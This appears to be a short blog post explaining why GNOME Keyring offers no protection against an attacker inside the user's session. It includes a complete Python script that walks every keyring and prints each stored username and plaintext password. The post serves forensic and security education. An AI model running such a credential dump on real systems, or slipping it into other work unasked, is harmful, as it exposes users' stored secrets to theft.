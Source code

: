 ```yaml
---
title:  "Extracting GNOME Keyring Credentials"
---
```


![Logo](/assets/images/seal.jpg)

## Context
* Gnome Keyring is a (good:wink:) daemon that stores different security credentials encrypted in a file in the user’s home directory. It uses the login password for encryption, and after the keyring is decrypted at logon, the password is no longer necessary in the current user’s context. 
* Since usually password managers and tools of this kind are _more for users' convenience than security_, an attacker/forensic investigator with local access could easily extract specific credentials from the GUI application (_Applications -> Accessories -> Passwords and Encryption Keyrings_), without being prompted for anything to authorize him.
* Gnome Keyring does not protect against active attacks (when the attacker has access to user’s session). This is explained clearly in the [GNOME Keyring Security Philosophy](https://wiki.gnome.org/Projects/GnomeKeyring/SecurityPhilosophy):
> An active attacker might install an application on your computer, display a window, listen into the X events going to another window, read through your memory, snoop on you from a root account etc.
* The analogous application for KDE is [KWallet](https://utils.kde.org/projects/kwalletmanager/), which workes by the same principles. Oh, and there are python bindings is a python binding for this too.

## Dump keyring credentials using Python
```python
#
# Dumps all keys stored in Ubuntu keyrings
#

import gnomekeyring
 
def extract_keys():
    ''' Extract the usernames and passwords from all the keyrings'''
    
    for keyring in gnomekeyring.list_keyring_names_sync():
    # Get keyring name - "Login" is the default passwords keyring
        kr_name = keyring.title()
        print "Extracting keys from \"%s\" keyring:" % (kr_name)
        
        items = gnomekeyring.list_item_ids_sync(keyring);
        if len(items) == 0:
            print "Keyring \"%s\" is empty\n" % (kr_name)
            # If keyring is empty, continue to next keyring
            continue
        
        for i in range(0, len(items)):
            # Get information about an item (like description and secret)
            item_info = gnomekeyring.item_get_info_sync(keyring, items[i])
            description = item_info.get_display_name()
            password = item_info.get_secret()

            # Get attributes of an item (retrieve username)
            item_attr = gnomekeyring.item_get_attributes_sync(keyring, items[i])
            username = item_attr['username_value']

            print "[%d] %s" % (i, description)
            print " %s:%s" % (username, password)
        print ""
 
if __name__ == '__main__':
    extract_keys()
```
